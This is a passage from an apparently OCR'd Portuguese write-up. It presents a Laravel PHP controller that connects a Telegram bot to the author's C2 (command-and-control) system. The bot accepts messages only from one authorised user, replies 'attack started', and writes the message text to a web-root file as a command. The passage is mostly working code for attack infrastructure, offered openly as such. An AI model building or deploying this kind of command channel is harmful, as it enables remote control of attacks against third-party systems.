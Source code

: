 Com o TOKEN do Telegram em mãos, desenvolvi um script PHP para integrar o bot ao nosso sistema C2. Este código é responsável por configurar o webhook do Telegram e processar as mensagens recebidas, seguindo a lógica de controle de acesso e execução de comandos.

```php
<?php

namespace App\Http\Controllers;

use App\Classes\Mensagem;
use Illuminate\Http\Request;
use TelegramBot\Api\BotApi;

class HomeController extends Controller
{
    public function config(Request $request)
    {
        $bot = new BotApi(config("app.TELEGRAM_TOKEN"));
        $bot->setWebhook(config("app.TELEGRAM_WEBHOOK"));
    }

    public function webhook(Request $request)
    {
        try {
            $data = $request->all();

            $bot = new BotApi(config("app.TELEGRAM_TOKEN"));

            if ($data["message"]["from"]["username"] == config("app.TELEGRAM_USER")) {
                $bot->sendMessage($data["message"]["from"]["id"], sprintf("Olá %s, ataque iniciado - %s",
                $data["message"]["from"]["first_name"], $data["message"]["text"]));

                $nomeDoArquivo = "/var/www/html/arquivo.txt";

                if (file_exists($nomeDoArquivo)) {
                    unlink($nomeDoArquivo);
                }

                file_put_contents($nomeDoArquivo, strtolower(trim($data["message"]["text"])));
            }
            else {
                $nome = isset($data["message"]["from"]["first_name"]) ? $data["message"]["from"]["first_name"] : "amigo(a)";
                $bot->sendMessage($data["message"]["from"]["id"], sprintf("Olá %s, acesso negado!", $nome));
            }
        } catch (\Throwable $th) {
            $bot->sendMessage(config("app.TELEGRAM_FROM_ID"), $th->getMessage());
        }

        return response()->json([], "200");
    }
}
```
